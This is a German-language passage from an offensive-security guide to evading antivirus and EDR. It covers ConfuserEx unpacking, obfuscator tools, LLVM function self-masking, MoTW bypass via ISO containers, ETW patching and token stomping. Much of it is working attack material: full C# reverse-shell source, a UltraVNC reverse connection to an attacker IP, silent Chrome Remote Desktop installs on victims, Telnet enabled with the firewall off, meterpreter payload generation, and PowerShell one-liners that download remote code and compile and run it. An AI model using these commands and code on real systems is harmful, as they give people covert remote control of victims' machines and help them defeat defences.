1.  Anti-Tampering entfernen – ConfuserEx verschlüsselt jeden *Methodenkörper* und entschlüsselt ihn im statischen Konstruktor des *Moduls* (`<Module>.cctor`). Außerdem wird die PE-Prüfsumme geändert, sodass jede Modifikation zum Absturz der Binärdatei führt. Verwende **AntiTamperKiller**, um die verschlüsselten Metadatentabellen zu finden, die XOR-Schlüssel wiederherzustellen und eine bereinigte Assembly zu erzeugen:
   ```bash
   # https://github.com/wwh1004/AntiTamperKiller
   python AntiTamperKiller.py Confused.exe Confused.clean.exe
   ```
   Die Ausgabe enthält die 6 Anti-Tamper-Parameter (`key0-key3`, `nameHash`, `internKey`), die beim Erstellen eines eigenen Unpackers nützlich sein können.

2.  Symbol- und Kontrollflusswiederherstellung – gib die *bereinigte* Datei an **de4dot-cex** weiter (einen auf ConfuserEx ausgelegten Fork von de4dot).
   ```bash
   de4dot-cex -p crx Confused.clean.exe -o Confused.de4dot.exe
   ```
   Flags:
     • `-p crx` – das ConfuserEx-2-Profil auswählen
     • de4dot macht Control-Flow-Flattening rückgängig, stellt ursprüngliche Namespaces, Klassen- und Variablennamen wieder her und entschlüsselt konstante Zeichenfolgen.

3.  Proxy-Call-Entfernung – ConfuserEx ersetzt direkte Methodenaufrufe durch einfache Wrapper (auch *Proxy Calls* genannt), um die Dekompilierung weiter zu erschweren. Entferne sie mit **ProxyCall-Remover**:
   ```bash
   ProxyCall-Remover.exe Confused.de4dot.exe Confused.fixed.exe
   ```
   Nach diesem Schritt sollten Sie normale .NET-APIs wie `Convert.FromBase64String` oder `AES.Create()` statt undurchsichtiger Wrapper-Funktionen (`Class8.smethod_10`, …) sehen.

4.  Manuelle Bereinigung – führen Sie die resultierende Binärdatei unter dnSpy aus und suchen Sie nach großen Base64-Blobs oder der Verwendung von `RijndaelManaged`/`TripleDESCryptoServiceProvider`, um die *eigentliche* Payload zu finden. Oft speichert die Malware sie als TLV-kodiertes Byte-Array, das innerhalb von `<Module>.byte_0` initialisiert wird.

Diese Kette stellt den Ausführungsfluss wieder her, **ohne** das bösartige Sample ausführen zu müssen – nützlich bei der Arbeit an einer Offline-Workstation.

> 🛈  ConfuserEx erzeugt ein benutzerdefiniertes Attribut namens `ConfusedByAttribute`, das als IOC verwendet werden kann, um Samples automatisch zu triagieren.

#### Einzeiler
```bash
autotok.sh Confused.exe  # wrapper that performs the 3 steps above sequentially
```

---

- [**InvisibilityCloak**](https://github.com/h4wkst3r/InvisibilityCloak)**: C#-Obfuscator**
- [**Obfuscator-LLVM**](https://github.com/obfuscator-llvm/obfuscator): Ziel dieses Projekts ist es, einen Open-Source-Fork der [LLVM](http://www.llvm.org/)-Compiler-Suite bereitzustellen, der durch [Code-Obfuscation](<http://en.wikipedia.org/wiki/Obfuscation_(software)>) und Manipulationsschutz für mehr Softwaresicherheit sorgt.
- [**ADVobfuscator**](https://github.com/andrivet/ADVobfuscator): ADVobfuscator zeigt, wie die Sprache `C++11/14` verwendet werden kann, um zur Compile-Zeit obfuskierten Code zu generieren – ohne externe Tools und ohne den Compiler zu verändern.
- [**obfy**](https://github.com/fritzone/obfy): Fügt eine Ebene obfuskierter Operationen hinzu, die vom C++-Template-Metaprogrammierungs-Framework generiert werden und es Personen, die die Anwendung knacken wollen, etwas schwerer machen.
- [**Alcatraz**](https://github.com/weak1337/Alcatraz)**:** Alcatraz ist ein x64-Binary-Obfuscator, der verschiedene PE-Dateien obfuskieren kann, darunter .exe, .dll und .sys.
- [**metame**](https://github.com/a0rtega/metame): Metame ist eine einfache Engine für metamorphen Code in beliebigen ausführbaren Dateien.
- [**ropfuscator**](https://github.com/ropfuscator/ropfuscator): ROPfuscator ist ein feingranulares Code-Obfuscation-Framework für von LLVM unterstützte Sprachen, das ROP (return-oriented programming) verwendet. ROPfuscator obfuskiert ein Programm auf Assembly-Ebene, indem reguläre Instruktionen in ROP-Chains umgewandelt werden. Dadurch wird unser natürliches Verständnis eines normalen Kontrollflusses unterlaufen.
- [**Nimcrypt**](https://github.com/icyguider/nimcrypt): Nimcrypt ist ein in Nim geschriebener .NET-PE-Crypter.
- [**inceptor**](https://github.com/klezVirus/inceptor)**:** Inceptor kann vorhandene EXE/DLL-Dateien in Shellcode umwandeln und diesen anschließend laden.

### LLVM-Compiler-gestütztes Self-Masking einzelner Funktionen

Anstatt ein gesamtes Implantat nur während des Schlafens zu maskieren, kann ein modifiziertes LLVM-X86-Backend ausgewählte Funktionen maskiert halten, solange sie inaktiv sind. Der Function-Peekaboo-PoC wählt demangelte Namen aus, die `REG_` enthalten, fügt positionunabhängige Entry-/Exit-Stubs um den fertigen Maschinencode ein und gibt einen gemeinsamen Masking-Handler in `.text` aus. Signaturen auf Source-Ebene und die Windows-x64-Calling-Convention bleiben unverändert.<sup>[[38]](#references)[[39]](#references)</sup>

#### Kontrollfluss-Transformation im Backend

Diese Änderung sollte nach der Instruktionsauswahl und Optimierung erfolgen, da sie **jeden ausgegebenen Return** abdecken und das genaue x86-Layout kennen muss. Ein `MachineFunctionPass` vor der Ausgabe findet die letzte `MachineInstr::isReturn()`, löscht sie, sodass der letzte Pfad in das angehängte Epilog fällt, und ersetzt frühere Returns durch `JMP_1 handler`. Behalte jeglichen vom Compiler generierten Stack-/Frame-Abbau vor den Returns bei; leite nur die Return-Instruktion selbst um.<sup>[[38]](#references)[[39]](#references)</sup>

`X86AsmPrinter::emitFunctionBodyStart()` und `emitFunctionBodyEnd()` geben die Stubs für die jeweilige Funktion aus, während `emitEndOfAsmFile()` den Handler ausgibt. Symbole, die zwischen den Ausgabestufen geteilt werden, ermöglichen es einem Prolog-Branch, auf sein später ausgegebenes Epilog zu verweisen. Für ein manuell ausgegebenes Near-`je` schreibe `0F 84`, gefolgt vom vier Byte langen MC-Ausdruck `target - address_after_je`. Calls und Jumps zum Handler können stattdessen als `MCInst`-Objekte ausgegeben werden (`CALL64pcrel32` und `JMP_1`). Ein Pass muss für eine nicht ausgewählte Funktion `false` zurückgeben, wenn er nichts geändert hat; der PoC gibt in diesem Fall fälschlicherweise `true` zurück.<sup>[[38]](#references)[[39]](#references)</sup>

#### Metadaten und Initialisierung vor dem CRT

Der PoC legt einen XOR-Schlüssel und 16 Byte lange Einträge mit einem vom Loader relocierten Funktionszeiger sowie einer Laufzeitlänge in `.funcmeta` ab. Obwohl das C-Feld ein `uint32_t` ist, greift der Handler bei Offset `+8` des Eintrags auf ein QWORD zu und liest dabei die Länge samt Padding; anschließend rückt er um `0x10` weiter. PE-Section-Namen sind auf acht Byte beschränkt, daher findet die Laufzeitabfrage `.funcmet`. Ein externer Patcher fügt ein ausführbares `.stub` hinzu, speichert die alte Entry-Point-RVA im Stub und leitet `AddressOfEntryPoint` um. Der PIC-Stub ermittelt die Image Base über `gs:[0x60]` → `[PEB+0x10]`, durchläuft die PE32+-Imports, um ein bereits importiertes `VirtualProtect` aufzulösen, und wird vor dem CRT ausgeführt.<sup>[[38]](#references)[[39]](#references)</sup>

Bei der Initialisierung wird ein Sentinel in `gs:[0xE8]` gesetzt und jede Metadatenfunktion aufgerufen. Der dauerhaft lesbare Prolog speichert den Funktionsanfang in `gs:[0xF0]`, erkennt den Sentinel und überspringt den noch unverschlüsselten Funktionsrumpf. Das Epilog verwendet anschließend `call handler`; nachdem der Handler 13 Register (`0x68` Byte) gesichert hat, enthält die Rücksprungadresse bei `[rsp+0x68]` das Ende der transformierten Funktion. Daher kann `end - start` in den zugehörigen Metadateneintrag geschrieben werden. Nachdem alle Funktionsrümpfe maskiert wurden, löscht der Stub den Sentinel und springt zu `ImageBase + original_entry_point_RVA`.<sup>[[38]](#references)[[39]](#references)</sup>

Bei einem normalen Aufruf ruft der Prolog denselben symmetrischen Handler auf, um den Funktionsrumpf zu entschlüsseln. Der letzte Pfad fällt in das angehängte Epilog, während jeder frühere Return direkt zum gemeinsamen Handler springt. Auch das normale Epilog verwendet `jmp handler` statt `call`. Nach der erneuten Maskierung nimmt das `ret` des Handlers somit die Rücksprungadresse des ursprünglichen Aufrufers entgegen und erhält das Funktionsergebnis in `RAX`.<sup>[[38]](#references)[[39]](#references)</sup>

#### Masking-Primitive und Analyseindikatoren

Der Handler findet den aktuellen Eintrag, überspringt den festen sichtbaren Prolog (in diesem Build `0x46` Byte), setzt den Rest auf `PAGE_EXECUTE_READWRITE`, XORt ihn Byte für Byte mit dem niedrigen Schlüsselbyte und setzt ihn anschließend auf `PAGE_EXECUTE_READ`. Dieselbe Schleife entschlüsselt den Funktionsrumpf also beim Eintritt und verschlüsselt ihn bei jedem normalen Austritt erneut.<sup>[[38]](#references)[[39]](#references)</sup>

Zu den aussagekräftigen Indikatoren für dieses Design gehören:<sup>[[38]](#references)[[39]](#references)</sup>

- ein Entry Point innerhalb eines ausführbaren `.stub` sowie eine `.funcmet`-Section mit einem Schlüssel und relocierten Zeigern in `.text`;
- Parsing von PEB, Import-Tabelle und Section-Tabelle vor dem CRT, gefolgt von Aufrufen über jeden Metadatenzeiger;
- identische PIC-Prologe mit `call`/`pop` und zahlreiche Return-Stellen, die zu einem Handler umgeleitet werden;
- Schreibzugriffe auf `gs:[0xE8]`, `gs:[0xF0]` und `gs:[0xF8]`, gefolgt von wiederholten `VirtualProtect`-Übergängen und byteweisen XOR-Schreibzugriffen in ausführbare, vom Image hinterlegte Seiten.

Dies dient der Umgehung von Memory-Scannern, nicht dem kryptografischen Schutz: Die gepatchte Datei enthält den ursprünglichen unverschlüsselten Funktionsrumpf weiterhin, und ein Debugger kann bei `VirtualProtect` oder der XOR-Schleife anhalten und die aktive Funktion auslesen. Das Ein-Byte-XOR, die lesbaren Metadaten und die feste Grenze `0x46` machen auch eine Offline-Wiederherstellung unkompliziert.<sup>[[38]](#references)[[39]](#references)</sup>

> [!WARNING]
> Die TEB-Slots des PoC sind threadlokal, die modifizierten Code-Seiten jedoch prozessweit. Gleichzeitige oder rekursive Aufrufe können daher Instruktionen erneut umschalten, während ein anderer Aufruf sie gerade ausführt. Auch Exceptions und nichtlokale Exits können das erneute Maskieren umgehen. Eine robuste Implementierung muss Zustandsübergänge synchronisieren, den tatsächlich über `lpflOldProtect` zurückgegebenen Schutz wiederherstellen, hart codierte Stub-Längen vermeiden, sowohl `call`- als auch `jmp`-Pfade auf die x64-Stack-Ausrichtung prüfen und nach dem Überschreiben ausführbarer Bytes `FlushInstructionCache` aufrufen. Microsoft weist ausdrücklich darauf hin, dass der Aufrufer für die Kohärenz des Instruktions-Caches verantwortlich ist, wenn ausführbarer Code geändert wird.<sup>[[38]](#references)[[39]](#references)[[40]](#references)</sup>

## SmartScreen & MoTW

Vielleicht ist dir dieser Bildschirm schon einmal begegnet, wenn du ausführbare Dateien aus dem Internet heruntergeladen und ausgeführt hast.

Microsoft Defender SmartScreen ist ein Sicherheitsmechanismus, der Endnutzer davor schützen soll, potenziell schädliche Anwendungen auszuführen.

<figure><figcaption></figcaption></figure>

SmartScreen arbeitet hauptsächlich mit einem reputationsbasierten Ansatz. Das bedeutet, dass selten heruntergeladene Anwendungen SmartScreen auslösen und so den Endnutzer warnen und daran hindern, die Datei auszuführen (die Datei kann jedoch weiterhin ausgeführt werden, indem man auf „More Info“ → „Run anyway“ klickt).

**MoTW** (Mark of The Web) ist ein [NTFS Alternate Data Stream](<https://en.wikipedia.org/wiki/NTFS#Alternate_data_stream_(ADS)>) namens Zone.Identifier, der beim Herunterladen von Dateien aus dem Internet automatisch erstellt wird und die URL enthält, von der die Datei heruntergeladen wurde.

<figure><figcaption><p>Überprüfen des Zone.Identifier ADS für eine aus dem Internet heruntergeladene Datei.</p></figcaption></figure>

> [!TIP]
> Es ist wichtig zu wissen, dass ausführbare Dateien, die mit einem **vertrauenswürdigen** Signaturzertifikat signiert wurden, **SmartScreen nicht auslösen**.

Eine sehr effektive Methode, um zu verhindern, dass deine Payloads den Mark of The Web erhalten, besteht darin, sie in einem Container wie einer ISO-Datei zu verpacken. Das liegt daran, dass Mark-of-the-Web (MOTW) **nicht** auf **Nicht-NTFS**-Volumes angewendet werden kann.

<figure><figcaption></figcaption></figure>

[**PackMyPayload**](https://github.com/mgeeky/PackMyPayload/) ist ein Tool, das Payloads in Ausgabe-Container verpackt, um Mark-of-the-Web zu umgehen.

Beispielverwendung:

```bash
PS C:\Tools\PackMyPayload> python .\PackMyPayload.py .\TotallyLegitApp.exe container.iso

+      o     +              o   +      o     +              o
    +             o     +           +             o     +         +
    o  +           +        +           o  +           +          o
-_-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-_-_-_-_-_-_-_,------,      o
   :: PACK MY PAYLOAD (1.1.0)       -_-_-_-_-_-_-|   /\_/\
   for all your container cravings   -_-_-_-_-_-~|__( ^ .^)  +    +
-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-__-_-_-_-_-_-_-''  ''
+      o         o   +       o       +      o         o   +       o
+      o            +      o    ~   Mariusz Banach / mgeeky    o
o      ~     +           ~          <mb [at] binary-offensive.com>
    o           +                         o           +           +

[.] Packaging input file to output .iso (iso)...
Burning file onto ISO:
    Adding file: /TotallyLegitApp.exe

[+] Generated file written to (size: 3420160): container.iso
```

Hier ist eine Demo zum Umgehen von SmartScreen, indem Payloads mit [PackMyPayload](https://github.com/mgeeky/PackMyPayload/) in ISO-Dateien verpackt werden.

<figure><figcaption></figcaption></figure>

## ETW

Event Tracing for Windows (ETW) ist ein leistungsstarker Logging-Mechanismus in Windows, mit dem Anwendungen und Systemkomponenten **Ereignisse protokollieren** können. Sicherheitsprodukte können ihn jedoch auch verwenden, um bösartige Aktivitäten zu überwachen und zu erkennen.

Ähnlich wie AMSI deaktiviert (umgangen) wird, ist es auch möglich, die Funktion **`EtwEventWrite`** des User-Space-Prozesses sofort zurückkehren zu lassen, ohne Ereignisse zu protokollieren. Dazu wird die Funktion im Speicher so gepatcht, dass sie sofort zurückkehrt. Dadurch wird das ETW-Logging für diesen Prozess effektiv deaktiviert.

Weitere Informationen findest du unter **[https://blog.xpnsec.com/hiding-your-dotnet-etw/](https://blog.xpnsec.com/hiding-your-dotnet-etw/) und [https://github.com/repnz/etw-providers-docs/](https://github.com/repnz/etw-providers-docs/)**.<sup>[[33]](#references)[[34]](#references)</sup>


## C# Assembly Reflection

C#-Binärdateien im Speicher zu laden, ist schon seit geraumer Zeit bekannt und nach wie vor eine sehr gute Möglichkeit, deine Post-Exploitation-Tools auszuführen, ohne von AV entdeckt zu werden.

Da die Payload direkt in den Speicher geladen wird, ohne auf die Festplatte zuzugreifen, müssen wir uns nur darum kümmern, AMSI für den gesamten Prozess zu patchen.

Die meisten C2-Frameworks (sliver, Covenant, metasploit, CobaltStrike, Havoc usw.) bieten bereits die Möglichkeit, C#-Assemblies direkt im Speicher auszuführen. Dafür gibt es jedoch verschiedene Methoden:

- **Fork\&Run**

Dabei wird **ein neuer, entbehrlicher Prozess gestartet**, der bösartige Post-Exploitation-Code in diesen neuen Prozess injiziert und ausführt. Nach Abschluss wird der neue Prozess beendet. Diese Methode hat sowohl Vor- als auch Nachteile. Der Vorteil der Fork-and-Run-Methode ist, dass die Ausführung **außerhalb** unseres Beacon-Implant-Prozesses stattfindet. Das bedeutet: Falls bei unserer Post-Exploitation-Aktion etwas schiefgeht oder entdeckt wird, ist die **Chance deutlich größer**, dass unser **Implant überlebt**. Der Nachteil ist, dass die **Wahrscheinlichkeit steigt**, von **verhaltensbasierten Erkennungen** erfasst zu werden.

<figure><figcaption></figcaption></figure>

- **Inline**

Hierbei wird der bösartige Post-Exploitation-Code **in den eigenen Prozess** injiziert. So muss kein neuer Prozess erstellt und von AV gescannt werden. Der Nachteil ist, dass bei einem Fehler während der Ausführung deiner Payload die **Wahrscheinlichkeit deutlich steigt**, dass du deinen **Beacon verlierst**, da er abstürzen könnte.

<figure><figcaption></figcaption></figure>

> [!TIP]
> Wenn du mehr über das Laden von C#-Assemblies erfahren möchtest, lies bitte diesen Artikel [https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/](https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/) und schau dir den dazugehörigen InlineExecute-Assembly BOF an ([https://github.com/xforcered/InlineExecute-Assembly](https://github.com/xforcered/InlineExecute-Assembly))

Du kannst C#-Assemblies auch **aus PowerShell** laden. Sieh dir [Invoke-SharpLoader](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader) und [das Video von S3cur3th1sSh1t](https://www.youtube.com/watch?v=oe11Q-3Akuk) an.

## Using Other Programming Languages

Wie in [**https://github.com/deeexcee-io/LOI-Bins**](https://github.com/deeexcee-io/LOI-Bins) vorgeschlagen, ist es möglich, bösartigen Code in anderen Sprachen auszuführen, indem man dem kompromittierten Rechner Zugriff **auf die Interpreter-Umgebung gewährt, die sich auf der vom Angreifer kontrollierten SMB-Freigabe befindet**.

Wenn du Zugriff auf die Interpreter-Binärdateien und die Umgebung auf der SMB-Freigabe gewährst, kannst du **beliebigen Code in diesen Sprachen im Speicher** des kompromittierten Rechners ausführen.

Im Repo heißt es: Defender scannt die Skripte weiterhin, aber durch die Verwendung von Go, Java, PHP usw. haben wir **mehr Flexibilität, statische Signaturen zu umgehen**. Tests mit zufälligen, nicht verschleierten Reverse-Shell-Skripten in diesen Sprachen waren erfolgreich.

## TokenStomping

Token stomping manipuliert das Zugriffstoken eines Sicherheitsprodukts wie EDR oder AV. Wenn die Berechtigungen des Tokens reduziert werden, kann der Prozess weiterlaufen, während er daran gehindert wird, privilegierte Prüfungen oder Gegenmaßnahmen auszuführen.

Um dies zu verhindern, könnte Windows **externen Prozessen verwehren**, Handles für die Tokens von Sicherheitsprozessen zu erhalten.

- [**https://github.com/pwn1sher/KillDefender/**](https://github.com/pwn1sher/KillDefender/)
- [**https://github.com/MartinIngesen/TokenStomp**](https://github.com/MartinIngesen/TokenStomp)
- [**https://github.com/nick-frischkorn/TokenStripBOF**](https://github.com/nick-frischkorn/TokenStripBOF)

## Using Trusted Software

### Chrome Remote Desktop

Wie in [**diesem Blogbeitrag**](https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide) beschrieben, lässt sich Chrome Remote Desktop einfach auf dem PC eines Opfers installieren und anschließend verwenden, um die Kontrolle darüber zu übernehmen und Persistenz einzurichten:<sup>[[35]](#references)</sup>
1. Lade die Datei von https://remotedesktop.google.com/ herunter, klicke auf "Set up via SSH" und anschließend auf die MSI-Datei für Windows, um sie herunterzuladen.
2. Führe das Installationsprogramm unbemerkt auf dem Rechner des Opfers aus (Administratorrechte erforderlich): `msiexec /i chromeremotedesktophost.msi /qn`
3. Kehre zur Chrome Remote Desktop-Seite zurück und klicke auf „Weiter“. Der Assistent fordert dich dann zur Autorisierung auf. Klicke auf „Autorisieren“, um fortzufahren.
4. Führe den bereitgestellten Befehl mit den erforderlichen Anpassungen aus: `"%PROGRAMFILES(X86)%\Google\Chrome Remote Desktop\CurrentVersion\remoting_start_host.exe" --code="YOUR_UNIQUE_CODE" --redirect-url="https://remotedesktop.google.com/_/oauthredirect" --name=%COMPUTERNAME% --pin=111111` (der Parameter `--pin` legt die PIN fest, ohne die GUI zu verwenden).
 

## Advanced Evasion

Evasion ist ein sehr komplexes Thema. Manchmal musst du zahlreiche verschiedene Telemetriequellen in einem einzigen System berücksichtigen. Daher ist es in ausgereiften Umgebungen nahezu unmöglich, völlig unentdeckt zu bleiben.

Jede Umgebung, in der du operierst, hat ihre eigenen Stärken und Schwächen.

Ich empfehle dir dringend, dir diesen Vortrag von [@ATTL4S](https://twitter.com/DaniLJ94) anzusehen, um einen Einstieg in fortgeschrittene Evasion-Techniken zu erhalten.


{{#ref}}
https://vimeo.com/502507556?embedded=true&owner=32913914&source=vimeo_logo
{{#endref}}

Dies ist ein weiterer großartiger Vortrag von [@mariuszbit](https://twitter.com/mariuszbit) über Evasion in Depth.


{{#ref}}
https://www.youtube.com/watch?v=IbA7Ung39o4
{{#endref}}

## **Old Techniques**

### **Check which parts Defender finds as malicious**

Du kannst [**ThreatCheck**](https://github.com/rasta-mouse/ThreatCheck) verwenden. Das Tool **entfernt Teile der Binärdatei**, bis es **herausfindet, welcher Teil von Defender** als bösartig erkannt wird, und gibt diesen Teil aus.\
Ein weiteres Tool, das **dasselbe tut, ist** [**avred**](https://github.com/dobin/avred). Der Dienst ist auch als Webangebot unter [**https://avred.r00ted.ch/**](https://avred.r00ted.ch/) verfügbar.

### **Telnet Server**

Bis Windows 10 enthielten alle Windows-Versionen einen **Telnet-Server**, den du als Administrator mit folgendem Befehl installieren konntest:

```bash
pkgmgr /iu:"TelnetServer" /quiet
```

Sorgen Sie dafür, dass es beim Systemstart **startet**, und **führen Sie es jetzt aus**:

```bash
sc config TlntSVR start= auto obj= localsystem
```

**Telnet-Port ändern** (Stealth) und Firewall deaktivieren:

```
tlntadmn config port=80
netsh advfirewall set allprofiles state off
```

### UltraVNC

Lade es hier herunter: [http://www.uvnc.com/downloads/ultravnc.html](http://www.uvnc.com/downloads/ultravnc.html) (du brauchst die bin-Downloads, nicht das Setup)

**AUF DEM HOST**: Führe _**winvnc.exe**_ aus und konfiguriere den Server:

- Aktiviere die Option _Disable TrayIcon_
- Lege ein Passwort unter _VNC Password_ fest
- Lege ein Passwort unter _View-Only Password_ fest

Verschiebe dann die Binärdatei _**winvnc.exe**_ und die **neu** erstellte Datei _**UltraVNC.ini**_ auf den **Opfer**

#### **Reverse connection**

Der **Angreifer** sollte auf seinem **Host** die Binärdatei `vncviewer.exe -listen 5900` ausführen, damit er bereit ist, eine umgekehrte **VNC-Verbindung** entgegenzunehmen. Führe dann auf dem **Opfer** den winvnc-Daemon mit `winvnc.exe -run` aus und führe `winwnc.exe [-autoreconnect] -connect <attacker_ip>::5900` aus.

**WARNUNG:** Um unauffällig zu bleiben, solltest du Folgendes vermeiden:

- Starte `winvnc` nicht, wenn es bereits läuft, sonst löst du ein [Popup](https://i.imgur.com/1SROTTl.png) aus. Prüfe mit `tasklist | findstr winvnc`, ob es läuft.
- Starte `winvnc` nicht ohne `UltraVNC.ini` im selben Verzeichnis, sonst wird [das Konfigurationsfenster](https://i.imgur.com/rfMQWcf.png) geöffnet.
- Führe nicht `winvnc -h` aus, um die Hilfe aufzurufen, sonst löst du ein [Popup](https://i.imgur.com/oc18wcu.png) aus.

### GreatSCT

Lade es hier herunter: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```

In GreatSCT:

```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```

Starte nun **den Listener** mit `msfconsole -r file.rc` und **führe** die **xml-Payload** aus mit:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```

**Der aktuelle Defender beendet den Prozess sehr schnell.**

### Unsere eigene Reverse-Shell kompilieren

https://medium.com/@Bank_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### Erste C#-Reverse-Shell

Kompiliere sie mit:

```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```

Verwende es mit:

```
back.exe <ATTACKER_IP> <PORT>
```

```csharp
// From https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);

						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```

### C# mit Compiler

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```

[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

Automatischer Download und Ausführung:

```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```


{{#ref}}
https://gist.github.com/BankSecurity/469ac5f9944ed1b8c39129dc0037bb8f
{{#endref}}

Liste der C#-Obfuscatoren: [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++

```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

- [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)
- [https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/](https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/)
- [https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)
- [https://github.com/l0ss/Grouper2](https://github.com/l0ss/Grouper2)
- [http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html](http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html)
- [http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/](http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/)

### Python zum Erstellen von Injectors verwenden, Beispiel:

- [https://github.com/cocomelonc/peekaboo](https://github.com/cocomelonc/peekaboo)

### Andere Tools

```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut:
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```

### Mehr

- [https://github.com/Seabreg/Xeexe-TopAntivirusEvasion](https://github.com/Seabreg/Xeexe-TopAntivirusEvasion)

## Bring Your Own Vulnerable Driver (BYOVD) – AV/EDR aus dem Kernel-Space ausschalten

